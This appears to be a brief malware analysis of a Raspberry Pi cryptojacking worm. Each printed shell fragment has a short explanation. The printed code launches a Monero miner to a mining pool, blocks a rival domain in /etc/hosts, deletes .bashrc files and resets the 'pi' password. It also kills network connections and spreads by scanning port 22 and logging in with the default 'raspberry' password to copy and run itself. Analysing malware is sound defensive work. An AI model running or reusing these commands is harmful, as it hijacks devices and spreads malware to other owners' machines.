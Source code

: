 

```
nohup $TMP2 -a cryptonight -o stratum+tcp://xmr.crypto-pool.fr:443 -u 45hgMAs1sNdMs7H9aCQm8oMCG5HGg37nv9Ab5r8u4R9gcWkSteobyt6faTuV8tnzhSUH3WFmStG1YXtsvSkSo5sz2ugxSW4 >> $DEBUG &
sleep 3
rm -rf $TMP2
```
This code executes binary. 


```
echo "127.0.0.1 bins.deutschland-zahlung.eu" >> /etc/hosts
rm -rf /root/.bashrc
rm -rf /home/pi/.bashrc
usermod -p \$6\$U1Nu9qCp\$FhPuo8s5PsQlH6lwUdTwFcAUPNzmr0pWCdNJj.p6l4Mzi8S867YLmc7BspmEH95POvxPQ3PzP029yT1L3yi6K1 pi
for pid in `netstat -pant | grep -v "ssh" | grep -v "minerd" | grep ESTABLISHED | awk -F ' ' '{print $7}' | awk -F '/' '{print $1}'`
do
	echo $pid
	kill -9 $pid
done
```
This code modifies the known hosts. 
It removes important files `/root/.bashrc` and `/home/pi/.bashrc` 
It modifies user account `usermod`. 
It kills all established network services except `ssh` and `minere`. This is **agressive**. 


```
while [ true ]; do
	FILE=`mktemp`
	zmap -p 22 -o $FILE -n 50000
	killall ssh scp
	for IP in `cat $FILE`
	do
		sshpass -praspberry scp -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no $MYSELF pi@$IP:/tmp/$NAME  && echo $IP >> /tmp/.r && sshpass -praspberry ssh pi@$IP -o ConnectTimeout=6 -o NumberOfPasswordPrompts=1 -o PreferredAuthentications=password -o UserKnownHostsFile=/dev/null -o StrictHostKeyChecking=no "cd /tmp && chmod +x $NAME && bash -c ./$NAME" &
	done
	rm -rf $FILE
	sleep 5
done
```
This code first use `zmap` to do port scan. 
Then it kills `ssh` and `scp`, which means the attacker is going to leave the script running alone. 
Use `sshpass` to login to a server without password prompt. It uses `raspberry` as its password to login. 

The very long line states:
> use `scp` to upload \$MYSELF to a target (scanned) device under `/tmp/`.
Then use `ssh` to connect to that device and execute 
`cd /tmp && chmod +x $NAME && bash -c ./$NAME &` 
